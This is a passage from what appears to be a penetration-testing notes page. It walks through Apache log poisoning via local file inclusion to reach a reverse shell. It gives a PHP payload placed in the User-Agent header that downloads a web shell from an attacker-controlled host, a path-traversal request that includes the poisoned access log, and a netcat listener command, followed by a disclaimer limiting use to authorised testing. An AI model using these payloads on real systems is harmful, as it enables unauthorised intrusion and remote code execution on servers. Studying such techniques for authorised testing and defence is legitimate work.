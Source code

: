 ```
GET / HTTP/1.1
...
User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://<attacker-ip>/shell.php'));  ?>
```

5. Apply the Injection

```
Refresh the page /index.php?page=../../../../var/log/apache2/access.log
```

6. Open Listener for Reverse Shell
In you local machine, open the listener.
You need to specify the port which you set the section 2.

```
nc -lvnp 4444
```

7. Gain Access to Shell

Access to /shell.php of the target website.
If it goes well, you can get a shell.

# Disclaimer
```
Exploit Notes are only for educational purpose or penetration testing, not attacking servers that you're not authorized. This site will not take any responsibility even if you attack the server illegally or cause damage unintentionally. Please use the contents in this site at your own risk.
The contents of this site are not original, but based on the information on the internet, the author actually tried and functioned. Although the author strives to post the latest information on the content of this site as much as possible, there is no guarantee that it will always be new.
```